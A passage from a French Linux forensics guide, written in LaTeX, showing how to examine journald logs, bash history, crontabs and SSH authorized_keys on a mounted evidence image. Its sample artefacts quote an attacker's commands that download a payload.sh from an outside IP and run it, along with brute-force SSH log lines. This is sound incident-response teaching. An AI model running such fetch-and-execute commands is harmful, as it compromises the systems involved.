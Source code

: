 \begin{boxoutils}{Analyse forensique de journald}
\begin{lstlisting}[language=bash_forensique]
# Analyser les journaux d'une image montee (hors-ligne)
journalctl --root=/mnt/evidence --since "2026-03-13 02:00:00" \
    --until "2026-03-13 03:00:00"

# Filtrer par service (ex : SSH)
journalctl --root=/mnt/evidence -u ssh.service

# Connexions SSH reussies / echouees
journalctl --root=/mnt/evidence | grep -i "sshd.*Accepted\|sshd.*Failed"
# Resultat type :
# Mar 13 02:14:02 srv sshd[4821]: Failed password for root from
#     185.220.XX.XX port 51234 ssh2
# Mar 13 02:14:09 srv sshd[4821]: Accepted password for root from
#     185.220.XX.XX port 51234 ssh2
# -> 7 tentatives echouees puis succes : brute-force reussi

# Commandes sudo executees
journalctl --root=/mnt/evidence | grep "sudo:.*COMMAND"
\end{lstlisting}
\end{boxoutils}

\subsection{Historique bash et fichiers de configuration shell}

\begin{boxoutils}{Artefacts shell -- bash\_history et environnement}
\begin{lstlisting}[language=bash_forensique]
# Historique des commandes (attention : tronque a HISTSIZE)
cat /mnt/evidence/root/.bash_history
cat /mnt/evidence/home/*/.bash_history

# Timestamps si HISTTIMEFORMAT etait active :
# #1678672664
# wget http://185.220.XX.XX/payload.sh
# #1678672680
# chmod +x payload.sh && ./payload.sh

# Fichiers de configuration modifies recemment (persistance)
find /mnt/evidence/etc -name "*.service" -newer \
    /mnt/evidence/etc/hostname

# Crontabs -- mecanisme de persistance frequent
cat /mnt/evidence/etc/crontab
cat /mnt/evidence/var/spool/cron/crontabs/*
ls -la /mnt/evidence/etc/cron.d/

# Cles SSH autorisees (backdoor frequente)
cat /mnt/evidence/root/.ssh/authorized_keys
cat /mnt/evidence/home/*/.ssh/authorized_keys
\end{lstlisting}
\end{boxoutils}

